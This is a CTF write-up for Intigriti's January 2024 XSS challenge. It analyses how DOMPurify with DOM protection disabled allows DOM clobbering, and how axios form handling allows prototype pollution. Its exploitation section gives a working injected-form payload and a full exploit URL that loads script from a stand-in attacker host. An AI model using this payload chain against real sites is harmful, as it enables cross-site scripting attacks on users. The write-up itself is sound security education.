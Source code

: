 # Intigriti's 0124 XSS Challenge Writeup

> Challenge URL https://challenge-0124.intigriti.io/

> Goal: Find a way to execute arbitrary javascript on the iFramed page and win Intigriti swag.

This is a simple web page that lets to set a username and to search for a repo. If the search is successfull the page will load an image and the repo's website in an iframe. The sources of the challege are provided.

## Source code analysis
### Backend

* The endpoint of interest is '/':

```js
app.get("/", (req, res) => {
    if (!req.query.name) {
        res.render("index");
	return;
    }
    res.render("search", {
        name: DOMPurify.sanitize(req.query.name, { SANITIZE_DOM: false }),
        search: req.query.search
    });
});
```
* The **name** parameter is sanitized with DOMPurify, with the option **SANITIZE_DOM** set to false. Searching on the [documentation](https://github.com/cure53/DOMPurify?tab=readme-ov-file#influence-how-we-sanitize):

```js
// disable DOM Clobbering protection on output (default is true, handle with care, minor XSS risks here)
const clean = DOMPurify.sanitize(dirty, {SANITIZE_DOM: false});
```

* So **SANITIZE_DOM** disables protection against DOM Clobbering.

### Frontend

* The page uses axios to retreive the search results:

```html
<script>
    function search(name) {
        $("img.loading").attr("hidden", false);

        axios.post("/search", $("#search").get(0), {
            "headers": { "Content-Type": "application/json" }
        }).then((d) => {
            $("img.loading").attr("hidden", true);
            const repo = d.data;
            if (!repo.owner) {
                alert("Not found!");
                return;
            };

            $("img.avatar").attr("src", repo.owner.avatar_url);
            $("#description").text(repo.description);
            if (repo.homepage && repo.homepage.startsWith("https://")) {
                $("#homepage").attr({
                    "src": repo.homepage,
                    "hidden": false
                });
            };
        });
    };

    window.onload = () => {
        const params = new URLSearchParams(location.search);
        if (params.get("search")) search();

        $("#search").submit((e) => {
            e.preventDefault();
            search();
        });
    };
</script>
```
* Client-Side prototype pollution in axios `formDataToJSON`

The search form HTML element is passed directly to axios: `$("#search").get(0)`

Axios automatically takes the data to send from an HTML form element, using the `formDataToJSON` function which is vulnerable to prototype pollution according to [this commit](https://github.com/axios/axios/commit/3c0c11cade045c4412c242b5727308cff9897a0e#diff-8aad81cd9123d451e13bbee901b3ac03a001f82b4e95a1d917e44be08cf977a1)

## Exploitation
DOM Clobbering + prototype pollution

* We can set the **name** query param to this:
```html
<form id=search>
	<input name="__proto__.owner" value="x">
	<input name="__proto__.homepage" value="https://attacker.com/xss.js">
</form>
```
* With this payload the **owner** check will be bypassed and the **homepage** property will be polluted, leading to xss
* Exploit url:

`https://challenge-0124.intigriti.io/challenge?name=%3Cform+id%3dsearch%3E%3Cinput+name%3d%22__proto__.owner%22+value%3d%22x%22%3E%3Cinput+name%3d%22__proto__.homepage%22+value%3d%22https%3a//attacker.com/xss.js%22%3E%3C/form%3E&search=c`
